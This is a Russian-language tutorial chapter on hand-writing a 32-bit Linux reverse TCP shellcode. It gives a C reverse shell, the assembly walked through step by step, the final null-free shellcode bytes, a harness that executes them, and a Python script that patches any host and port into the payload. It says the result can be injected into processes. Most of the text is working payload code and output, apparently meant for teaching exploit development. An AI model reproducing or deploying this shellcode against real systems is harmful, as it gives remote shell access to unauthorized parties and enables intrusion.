\newpage
\subsection{9. Shellcoding в Linux. Обратный TCP shellcode}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

{width="80%"}          

В предыдущем разделе про shellcoding мы запускали обычную оболочку. В этом разделе моя цель - написать shellcode для обратного TCP-соединения.      

### Тестирование shellcode     

При тестировании shellcode удобно просто вставить его в программу и запустить. Мы будем использовать тот же код, что и в первом посте (`run.c`):           
```cpp
/*
run.c - a small skeleton program to run shellcode
*/
// bytecode here
char code[] = "my shellcode here";

int main(int argc, char **argv) {
  int (*func)();             // function pointer
  func = (int (*)()) code;   // func points to our shellcode
  (int)(*func)();            // execute a function code[]
  // if our program returned 0 instead of 1, 
  // so our shellcode worked
  return 1;
}
```

### Обратный TCP shell

Мы возьмем C-код, который запускает обратный TCP shell, из одного из моих [предыдущих](https://cocomelonc.github.io/tutorial/2021/09/11/reverse-shells.html) постов.          
Вот наш базовый код (`shell.c`):
```cpp
/*
shell.c - reverse TCP shell
author: @cocomelonc
demo shell for linux shellcoding example
*/
#include <stdio.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <arpa/inet.h>
#include <unistd.h>

int main () {

  // attacker IP address
  const char* ip = "127.0.0.1";

  // address struct
  struct sockaddr_in addr;
  addr.sin_family = AF_INET;
  addr.sin_port = htons(4444);
  inet_aton(ip, &addr.sin_addr);

  // socket syscall
  int sockfd = socket(AF_INET, SOCK_STREAM, 0);

  // connect syscall
  connect(sockfd, (struct sockadr *)&addr, sizeof(addr));

  for (int i = 0; i < 3; i++) {
    // dup2(sockftd, 0) - stdin
    // dup2(sockfd, 1) - stdout
    // dup2(sockfd, 2) - stderr
    dup2(sockfd, i);
  }

  // execve syscall
  execve("/bin/sh", NULL, NULL);

  return 0;
}
```

### подготовка на ассемблере

Как показано в исходном коде на C, необходимо перевести следующие вызовы в язык ассемблера:           
 - создать сокет.             
 - подключиться к указанному IP и порту.          
 - перенаправить stdin, stdout, stderr с помощью `dup2`.      
 - запустить оболочку с `execve`.           

### cоздание сокета        

Для работы с сокетами требуется системный вызов `0x66` (SYS_SOCKETCALL):

{width="80%"}       

Затем очищаем регистр `eax`:        
```nasm
; int socketcall(int call, unsigned long *args);
push 0x66        ; sys_socketcall 102
pop  eax         ; zero out eax
```

Следующий важный момент - различные функции вызова socketcall можно найти в файле `/usr/include/linux/net.h`:           

{width="80%"}       

Сначала необходимо использовать `SYS_SOCKET (0x1)`, затем очистить `ebx`:
```nasm
push 0x1         ; sys_socket 0x1
pop  ebx         ; zero out ebx
```

Вызов `socket()` принимает 3 аргумента и возвращает файловый дескриптор сокета:   
```cpp
sockfd = socket(int socket_family, int socket_type, int protocol);
```

Теперь нужно проверить различные заголовочные файлы, чтобы найти определения аргументов.          
Для `protocol`:             
```bash
nvim /usr/include/linux/in.h
```

{width="80%"}       

Для `socket_type`:            
```bash
nvim /usr/include/bits/socket_type.h
```

{width="80%"}       

Для `socket_family`:
```bash
nvim /usr/include/bits/socket.h
```

{width="80%"}       

Основываясь на этой информации, можно загрузить различные аргументы (socket_family, socket_type, protocol) в стек после очистки регистра `edx`:       
```nasm
xor  edx, edx    ; zero out edx

; int socket(int domain, int type, int protocol);
push edx         ; protocol = IPPROTO_IP (0x0)
push ebx         ; socket_type = SOCK_STREAM (0x1)
push 0x2         ; socket_family = AF_INET (0x2)
```

Так как `ecx` должен содержать указатель на эту структуру, копируем `esp`:        
`mov  ecx, esp`    ; перемещаем указатель стека в ecx    

И наконец выполняем системный вызов:           

`int  0x80`        ; системный вызов (exec sys_socket)     

Этот вызов возвращает файловый дескриптор сокета в `eax`.          

В итоге:

`xchg edx, eax`    ; сохраняем результат (sockfd) для дальнейшего использования   

### подключение к указанному IP и порту       

Сначала снова нужен стандартный системный вызов socketcall в `al`:       
```nasm
; int socketcall(int call, unsigned long *args);
mov  al, 0x66    ; socketcall 102
```

Теперь рассмотрим аргументы функции `connect()`, и самый интересный аргумент - это структура `sockaddr`:
```cpp
struct sockaddr_in {
   __kernel_sa_family_t  sin_family;   /* Address family    */
  __be16                 sin_port;     /* Port number       */
  struct in_addr         sin_addr;     /* Internet address  */
};
```

Теперь нужно расположить аргументы в правильном порядке. Сначала `sin_addr`, затем `sin_port` и последним `sin_family` (помним: порядок обратный!):     
```nasm
; int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
push 0x0101017f  ; sin_addr = 127.1.1.1 (network byte order)
push word 0x5c11 ; sin_port = 4444
```

{width="80%"}       

`ebx` содержит 0x1 в этот момент, так как туда был загружен `socket_type` во время вызова `socket()`, поэтому после увеличения `ebx` он должен стать `0x2` (аргумент `sin_family`):

```nasm
inc  ebx         ; ebx = 0x02
push word bx     ; sin_family = AF_INET
```

Затем сохраняем указатель стека на эту структуру sockaddr в `ecx`:

`mov  ecx, esp`    ; перемещаем указатель стека в структуру sockaddr     

Теперь:
```nasm
push 0x10        ; addrlen = 16
push ecx         ; const struct sockaddr *addr
push edx         ; sockfd
mov  ecx, esp    ; move stack pointer to ecx (sockaddr_in struct)
inc  ebx         ; sys_connect (0x3)
int  0x80        ; syscall (exec sys_connect)
```

### перенаправление stdin, stdout и stderr через dup2

Теперь устанавливаем начальное значение счетчика и сбрасываем `ecx` для цикла:             

```nasm
push 0x2         ; set counter to 2
pop  ecx         ; zero to ecx (reset for newfd loop)
```

`ecx` теперь готов для цикла, просто сохраняем файловый дескриптор сокета в `ebx`, так как он потребуется при вызове системного вызова dup2:

```nasm
xchg ebx, edx    ; save sockfd
```

Затем `dup2` принимает 2 аргумента:         
```cpp
int dup2(int oldfd, int newfd);
```

Где `oldfd` (ebx) - это файловый дескриптор клиентского сокета, а `newfd` используется для stdin(0), stdout(1) и stderr(2):
```cpp
for (int i = 0; i < 3; i++) {
    // dup2(sockftd, 0) - stdin
    // dup2(sockfd, 1) - stdout
    // dup2(sockfd, 2) - stderr
    dup2(sockfd, i);
}
```

Таким образом, системный вызов `sys_dup2` выполняется три раза в цикле на основе `ecx`:       
```nasm
dup:
  mov  al, 0x3f    ; sys_dup2 = 63 = 0x3f
  int  0x80        ; syscall (exec sys_dup2)
  dec  ecx         ; decrement counter
  jns  dup         ; as long as SF is not set -> jmp to dup
```

`jns` просто выполняет переход к "dup", пока флаг знака (`SF`) не установлен.   

Теперь отладим с помощью `gdb` и проверим значение `ecx`:   
```bash
gdb -q ./rev
```

{width="80%"}       

Как видите, после третьего `dec ecx` он содержит `0xffffffff`, что эквивалентно -1, а `SF` устанавливается, и выполнение shellcode продолжается.     

В результате все три потока ввода-вывода перенаправлены. :)       

### запуск оболочки с execve

Этот фрагмент кода аналогичен примеру из первой части, но с небольшим изменением:
```nasm
; spawn /bin/sh using execve
; int execve(const char *filename, 
; char *const argv[],char *const envp[]);
mov  al, 0x0b    ; syscall: sys_execve = 11 (mov eax, 11)
inc  ecx         ; argv=0
mov  edx, ecx    ; envp=0
push edx         ; terminating NULL
push 0x68732f2f   ; "hs//"
push 0x6e69622f   ; "nib/"
mov  ebx, esp    ; save pointer to filename
int  0x80        ; syscall: exec sys_execve
```

Как видите, нам нужно отдельно поместить завершающий `NULL` для строки `/bin//sh` в стек, так как его там нет.    

### финальный полный shellcode

Мой полный shellcode с комментариями:

```nasm
; run reverse TCP /bin/sh and normal exit
; author @cocomelonc
; nasm -f elf32 -o rev.o rev.asm
; ld -m elf_i386 -o rev rev.o && ./rev
; 32-bit linux

section .bss

section .text
  global _start   ; must be declared for linker

_start:           ; linker entry point

  ; create socket
  ; int socketcall(int call, unsigned long *args);
  push 0x66        ; sys_socketcall 102
  pop  eax         ; zero out eax
  push 0x1         ; sys_socket 0x1
  pop  ebx         ; zero out ebx
  xor  edx, edx    ; zero out edx

  ; int socket(int domain, int type, int protocol);
  push edx         ; protocol = IPPROTO_IP (0x0)
  push ebx         ; socket_type = SOCK_STREAM (0x1)
  push 0x2         ; socket_family = AF_INET (0x2)
  mov  ecx, esp    ; move stack pointer to ecx
  int  0x80        ; syscall (exec sys_socket)
  xchg edx, eax    ; save result (sockfd) for later usage

  ; int socketcall(int call, unsigned long *args);
  mov  al, 0x66    ; socketcall 102

  ; int connect(int sockfd, const struct sockaddr *addr,
  ; socklen_t addrlen);
  push 0x0101017f  ; sin_addr = 127.1.1.1 
                   ; (network byte order)
  push word 0x5c11 ; sin_port = 4444
  inc  ebx         ; ebx = 0x02
  push word bx     ; sin_family = AF_INET
  mov  ecx, esp    ; move stack pointer to sockaddr struct

  push 0x10        ; addrlen = 16
  push ecx         ; const struct sockaddr *addr
  push edx         ; sockfd
  mov  ecx, esp    ; move stack pointer to ecx (sockaddr_in struct)
  inc  ebx         ; sys_connect (0x3)
  int  0x80        ; syscall (exec sys_connect)

  ; int socketcall(int call, unsigned long *args);
  ; duplicate the file descriptor for
  ; the socket into stdin, stdout, and stderr
  ; dup2(sockfd, i); i = 1, 2, 3
  push 0x2         ; set counter to 2
  pop  ecx         ; zero to ecx (reset for newfd loop)
  xchg ebx, edx    ; save sockfd

dup:
  mov  al, 0x3f    ; sys_dup2 = 63 = 0x3f
  int  0x80        ; syscall (exec sys_dup2)
  dec  ecx         ; decrement counter
  jns  dup         ; as long as SF is not set -> jmp to dup

  ; spawn /bin/sh using execve
  ; int execve(const char *filename, char 
  ; *const argv[],char *const envp[]);
  mov  al, 0x0b    ; syscall: sys_execve = 11 (mov eax, 11)
  inc  ecx         ; argv=0
  mov  edx, ecx    ; envp=0
  push edx         ; terminating NULL
  push 0x68732f2f   ; "hs//"
  push 0x6e69622f   ; "nib/"
  mov  ebx, esp    ; save pointer to filename
  int  0x80        ; syscall: exec sys_execve
```

### тестирование

Теперь, как и в первой части, соберем код и проверим его работоспособность, а также убедимся, что он не содержит нулевых байтов:
```bash
nasm -f elf32 -o rev.o rev.asm
ld -m elf_i386 -o rev rev.o
objdump -M intel -d rev
```

{width="80%"}       

{width="80%"}       

Подготавливаем слушатель на порту `4444` и запускаем:
```bash
./rev
```

{width="80%"}       

Отлично!

Затем извлекаем байт-код с помощью небольшого bash-скрипта и `objdump`:
```bash
objdump -d ./rev|grep '[0-9a-f]:'|grep -v 'file'|cut -f2
 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|
 sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

{width="80%"}       

Наш shellcode:            
```bash
"\x6a\x66\x58\x6a\x01\x5b\x31\xd2\x52\x53\x6a\x02\x89\xe1
\xcd\x80\x92\xb0\x66\x68\x7f\x01\x01\x01\x66\x68\x11\x5c
\x43\x66\x53\x89\xe1\x6a\x10\x51\x52\x89\xe1\x43\xcd\x80
\x6a\x02\x59\x87\xda\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b
\x41\x89\xca\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e
\x89\xe3\xcd\x80"
```

Затем заменяем код в `run.c` следующим:
```cpp
/*
run.c - a small skeleton program to run shellcode
*/
// bytecode here
char code[] = 
"\x6a\x66\x58\x6a\x01\x5b\x31\xd2\x52\x53\x6a\x02\x89"
"\xe1\xcd\x80\x92\xb0\x66\x68\x7f\x01\x01\x01\x66\x68"
"\x11\x5c\x43\x66\x53\x89\xe1\x6a\x10\x51\x52\x89\xe1"
"\x43\xcd\x80\x6a\x02\x59\x87\xda\xb0\x3f\xcd\x80\x49"
"\x79\xf9\xb0\x0b\x41\x89\xca\x52\x68\x2f\x2f\x73\x68"
"\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80";

int main(int argc, char **argv) {
  int (*func)();             // function pointer
  func = (int (*)()) code;   // func points to our shellcode
  (int)(*func)();            // execute a function code[]
  // if our program returned 0 instead of 1,
  // so our shellcode worked
  return 1;
}
```

Компилируем, подготавливаем слушатель и запускаем:          
```bash
gcc -z execstack -m32 -o run run.c
./run
```

{width="80%"}       

Как видите, все работает отлично. Теперь этот shellcode можно использовать и внедрять в процессы.   

Но есть одна проблема. Давайте сделаем IP и порт легко настраиваемыми.    

### настраиваемый IP и порт

Чтобы решить эту проблему, я создал простой Python-скрипт (`super_shellcode.py`):

```py
import socket
import argparse
import sys

BLUE = '\033[94m'
GREEN = '\033[92m'
YELLOW = '\033[93m'
RED = '\033[91m'
ENDC = '\033[0m'

def my_super_shellcode(host, port):
    print (BLUE)
    print ("let's go to create your super shellcode...")
    print (ENDC)
    if int(port) < 1 and int(port) > 65535:
        print (RED + "port number must be in 1-65535" + ENDC)
        sys.exit()
    if int(port) >= 1 and int(port) < 1024:
        print (YELLOW + "you must be a root" + ENDC)
    if len(host.split(".")) != 4:
        print (RED + "invalid host address :(" + ENDC)
        sys.exit()

    h = socket.inet_aton(host).hex()
    hl = [h[i:i+2] for i in range(0, len(h), 2)]
    if "00" in hl:
        print (YELLOW)
        print ("host address will cause null bytes \
        to be in shellcode :(")
        print (ENDC)
    h1, h2, h3, h4 = hl

    shellcode_host = "\\x" + h1 + "\\x" + h2
    shellcode_host += "\\x" + h3 + "\\x" + h4
    print (YELLOW)
    print ("hex host address:")
    print (" x" + h1 + "x" + h2 + "x" + h3 + "x" + h4)
    print (ENDC)

    p = socket.inet_aton(port).hex()[4:]
    pl = [p[i:i+2] for i in range(0, len(p), 2)]
    if "00" in pl:
        print (YELLOW)
        print ("port will cause null bytes \
        to be in shellcode :(")
        print (ENDC)
    p1, p2 = pl

    shellcode_port = "\\x" + p1 + "\\x" + p2
    print (YELLOW)
    print ("hex port: x" + p1 + "x" + p2)
    print (ENDC)

    shellcode = "\\x6a\\x66\\x58\\x6a\\x01\\x5b\\x31"
    shellcode += "\\xd2\\x52\\x53\\x6a\\x02\\x89\\xe1\\xcd"
    shellcode += "\\x80\\x92\\xb0\\x66\\x68"
    shellcode += shellcode_host
    shellcode += "\\x66\\x68"
    shellcode += shellcode_port
    shellcode += "\\x43\\x66\\x53\\x89\\xe1\\x6a\\x10"
    shellcode += "\\x51\\x52\\x89\\xe1\\x43\\xcd"
    shellcode += "\\x80\\x6a\\x02\\x59\\x87\\xda\\xb0"
    shellcode += "\\x3f\\xcd\\x80\\x49\\x79\\xf9"
    shellcode += "\\xb0\\x0b\\x41\\x89\\xca\\x52\\x68"
    shellcode += "\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69"
    shellcode += "\\x6e\\x89\\xe3\\xcd\\x80"

    print (GREEN + "your super shellcode is:" + ENDC)
    print (GREEN + shellcode + ENDC)

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument('-l','--lhost',
                         required = True, help = "local IP",
                         default = "127.1.1.1", type = str)
    parser.add_argument('-p','--lport',
                         required = True, help = "local port",
                         default = "4444", type = str)
    args = vars(parser.parse_args())
    host, port = args['lhost'], args['lport']
    my_super_shellcode(host, port)

```

Подготавливаем слушатель, запускаем скрипт, копируем shellcode в нашу тестовую программу, компилируем и запускаем:         
```bash
python3 super_shellcode.py -l 10.9.1.6 -p 4444
gcc -static -fno-stack-protector -z execstack -m32 -o run run.c 
```

{width="80%"}       

Наш shellcode работает идеально! :)        

Вот так можно создать свой собственный shellcode, например.

[The Shellcoder's Handbook](https://www.wiley.com/en-us/The+Shellcoder%27s+Handbook%3A+Discovering+and+Exploiting+Security+Holes%2C+2nd+Edition-p-9780470080238)              
[Shellcoding in Linux by exploit-db](https://www.exploit-db.com/docs/english/21013-shellcoding-in-linux.pdf)              
[my intro to x86 assembly](https://cocomelonc.github.io/tutorial/2021/10/03/malware-analysis-1.html)          
[my nasm tutorial](https://cocomelonc.github.io/tutorial/2021/10/08/malware-analysis-2.html)           
[ip](https://man7.org/linux/man-pages/man7/ip.7.html)                
[socket](https://man7.org/linux/man-pages/man2/socket.2.html)           
[connect](https://man7.org/linux/man-pages/man2/connect.2.html)             
[execve](https://man7.org/linux/man-pages/man2/execve.2.html)         
[first part](https://cocomelonc.github.io/tutorial/2021/10/09/linux-shellcoding-1.html)                   
[исходный код на Github](https://github.com/cocomelonc/2021-10-17-linux-shellcoding-2)         
